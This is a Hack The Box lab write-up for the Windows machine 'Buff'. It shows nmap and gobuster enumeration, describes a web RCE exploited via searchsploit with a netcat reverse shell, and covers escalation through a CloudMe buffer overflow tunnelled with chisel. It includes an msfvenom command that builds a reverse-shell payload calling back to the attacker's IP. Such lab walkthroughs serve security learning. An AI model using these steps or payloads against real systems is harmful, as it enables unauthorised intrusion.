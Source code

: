 ```yaml
---
title: "[HTB] Machine: Buff"
description: "[HTB] Machine: Buff"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Buff"
    identifier: htb-machine-buff
    parent: htb-machines-windows
    weight: 10
hero: images/buff.png
tags: ["HTB", "chisel", "msfvenom", "webshell"]
---
```


# Buff
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.198
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 16:06 BST
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.11s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.73 seconds
```
```
└─$ gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.198:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/06 16:38:09 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/img/]
/index.php            (Status: 200) [Size: 4969]
/home.php             (Status: 200) [Size: 143]
/contact.php          (Status: 200) [Size: 4169]
/about.php            (Status: 200) [Size: 5337]
/profile              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/profile/]
/register.php         (Status: 200) [Size: 137]
/feedback.php         (Status: 200) [Size: 4252]
/Home.php             (Status: 200) [Size: 143]
/upload               (Status: 301) [Size: 344] [--> http://10.10.10.198:8080/upload/]
/upload.php           (Status: 200) [Size: 107]
/Contact.php          (Status: 200) [Size: 4169]
/About.php            (Status: 200) [Size: 5337]
/edit.php             (Status: 200) [Size: 4282]
/license              (Status: 200) [Size: 18025]
/Index.php            (Status: 200) [Size: 4969]
/up.php               (Status: 200) [Size: 209]
/packages.php         (Status: 200) [Size: 7791]
/examples             (Status: 503) [Size: 1058]
/include              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/include/]
/licenses             (Status: 403) [Size: 1203]
/facilities.php       (Status: 200) [Size: 5961]
/Register.php         (Status: 200) [Size: 137]
/Profile              (Status: 301) [Size: 345] [--> http://10.10.10.198:8080/Profile/]
/LICENSE              (Status: 200) [Size: 18025]
/Feedback.php         (Status: 200) [Size: 4252]
/att                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/att/]
/att.php              (Status: 200) [Size: 816]
/%20                  (Status: 403) [Size: 1044]
/IMG                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/IMG/]
/INDEX.php            (Status: 200) [Size: 4969]
/License              (Status: 200) [Size: 18025]
/ex                   (Status: 301) [Size: 340] [--> http://10.10.10.198:8080/ex/]
/*checkout*.php       (Status: 403) [Size: 1044]
/*checkout*           (Status: 403) [Size: 1044]
/*checkout*.txt       (Status: 403) [Size: 1044]
/Img                  (Status: 301) [Size: 341] [--> http://10.10.10.198:8080/Img/]
/boot                 (Status: 301) [Size: 342] [--> http://10.10.10.198:8080/boot/]
/Upload               (Status: 301) [Size: 344] [--> http://10.10.10.198:8080/Upload/]
/Upload.php           (Status: 200) [Size: 107]
/phpmyadmin           (Status: 403) [Size: 1203]
/HOME.php             (Status: 200) [Size: 143]
```
- Web server

![](./images/1.png)

## Foothold
- While visiting pages found by `gobuster`, I found that `contact.php` reveals the framework and its version

![](./images/2.png)

- Checking `searchsploit` gives us `RCE`

![](./images/3.png)

![](./images/4.png)

- Let's run it

![](./images/5.png)

![](./images/6.png)


- But I wasn't able to change the directories, since it's a webshell and doesn't save states
  - So I wanted to upgrade the shell by uploading `nc` and geting reverse shell

![](./images/7.png)

![](./images/8.png)

## Root
- When I downloaded the `winpeas` for enumeration I noticed that in the `Downloads` directory there is a `CloudMe_1112.exe` file
  - So I googled about it and checked the ports along with the list of running processes
  - There is indeed `CloudMe` process running
  - It seemed like it was running periodically since the port `8888` was opening and closing every 1 minute.

![](./images/9.png)

![](./images/10.png)

![](./images/11.png)

- `Searchsploit` returns a list of vulnerabilities
  - And we have a match, since our `exe` file had a version `1.11.2`

![](./images/12.png)

- Let's build a tunnel to expose the port
  - We can use `chisel`

![](./images/13.png)

![](./images/14.png)

- Let's check the exploit

![](./images/15.png)

- Generate payload and modify the `PoC`
  - `msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.12 LPORT=7777 -b '\x00\x0A\x0D' -f python -v payload`

![](./images/16.png)

- Launch the listener and run the exploit

![](./images/17.png)

![](./images/18.png)


